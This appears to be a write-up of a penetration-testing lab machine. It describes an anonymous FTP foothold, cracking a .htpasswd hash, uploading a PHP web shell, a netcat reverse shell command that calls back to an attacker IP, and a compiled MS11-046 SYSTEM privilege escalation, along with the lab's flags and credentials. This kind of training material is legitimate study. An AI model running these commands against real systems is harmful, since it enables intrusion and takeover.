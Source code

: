 # Authby - FTP & Windows Privilege Escalation Walkthrough

This is a full exploitation walkthrough for the Authby lab machine. The machine features a vulnerable FTP service with anonymous access, a basic auth-protected web server, and an outdated Windows Server vulnerable to privilege escalation via MS11-046. The goal was to gain remote access, escalate to SYSTEM, and retrieve both flags.

## Target Information

IP Address: 192.168.224.46  
Operating System: Windows Server 2008  
Hostname: LIVDA  
Open Ports:
- 21 (FTP - zFTPServer 6.0)
- 242 (HTTP - Apache/2.2.21 with PHP/5.3.8)
- 3145 (zFTP admin panel)
- 3389 (RDP)

## Enumeration

Performed full Nmap scan:

nmap -T4 -A -Pn -p- 192.168.224.46 -o nmap

Found:
- FTP allows anonymous login (port 21)
- Apache web server on port 242 with HTTP Basic Auth
- zFTPServer admin interface on port 3145
- RDP over port 3389

Enumerated files on FTP:
- Various installation and service batch files
- /accounts directory exposed
- Found .htpasswd file with hashed credentials

## Brute Force & Credential Extraction

Downloaded .htpasswd and found hash:

offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0

Saved to file and cracked with John:

echo 'offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0' > offsec.txt  
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords.txt offsec.txt

Result:
Username: offsec  
Password: elite

Tested credentials on Apache web server at port 242 — login successful.

## Uploading PHP Shell

Checked FTP write permissions — upload to web root was allowed.

Uploaded PHP reverse shell (shell.php) and Netcat binary (nc.exe) via FTP:

ftp admin@192.168.224.46  
put shell.php  
put nc.exe

Triggered reverse shell:

http://192.168.224.46:242/shell.php?cmd=nc.exe 192.168.45.238 6658 -e cmd

Listener:

rlwrap nc -nlvp 6658

Received reverse shell as user: apache

## User Flag

Located user flag at:

C:\Users\apache\Desktop\local.txt  
Flag: 3d77bf6ade47b098464343c50e95e42d

## Privilege Escalation

Checked system version with `systeminfo` — confirmed target is Windows Server 2008 Build 6001 (vulnerable).

Identified MS11-046 as a working kernel exploit.

Used searchsploit:

searchsploit MS11-046  
searchsploit -m 40564.c

Compiled exploit:

i686-w64-mingw32-gcc 40564.c -o pwn.exe -lws2_32

Uploaded pwn.exe via FTP to target.

Executed exploit and received SYSTEM shell.

## Root Flag

Located at:

C:\Users\Administrator\Desktop\proof.txt  
Flag: 6edb2e7a80216790ef4acf6182a71251

## Tools Used

- nmap  
- ftp client  
- john  
- PHP reverse shell  
- nc.exe  
- searchsploit  
- mingw (i686-w64-mingw32-gcc)  
- MS11-046 local privilege escalation exploit

## Summary

- Gained anonymous access to FTP and discovered .htpasswd  
- Cracked credentials for user `offsec` and accessed protected web server  
- Uploaded PHP reverse shell and Netcat  
- Got a shell as user `apache`  
- Escalated privileges using MS11-046 to SYSTEM  
- Retrieved both user and root flags

## Author

Farhanahmad Quraishi

